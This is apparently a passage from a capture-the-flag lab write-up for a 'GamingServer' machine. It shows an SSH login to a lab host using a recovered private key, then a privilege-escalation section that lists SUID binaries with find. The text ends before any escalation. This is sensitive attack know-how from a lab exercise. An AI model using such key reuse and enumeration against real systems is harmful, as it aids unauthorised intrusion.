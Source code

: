 ```
┌──(kali㉿kali)-[~/Desktop/GamingServer]
└─$ ssh -i gaming_id.rsa john@10.10.187.1
The authenticity of host '10.10.187.1 (10.10.187.1)' can't be established.
ED25519 key fingerprint is SHA256:3Kz4ZAujxMQpTzzS0yLL9dLKLGmA1HJDOLAQWfmcabo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.187.1' (ED25519) to the list of known hosts.
Enter passphrase for key 'gaming_id.rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Oct 31 23:39:45 UTC 2023

  System load:  0.08              Processes:           97
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.187.1
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ 
```

## PrivEsc

```
john@exploitable:/home$ find / -perm -4000 2>/dev/null
/bin/mount
/bin/umount
/bin/su
/bin/fusermount
/bin/ping
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/at
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/newuidmap
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
```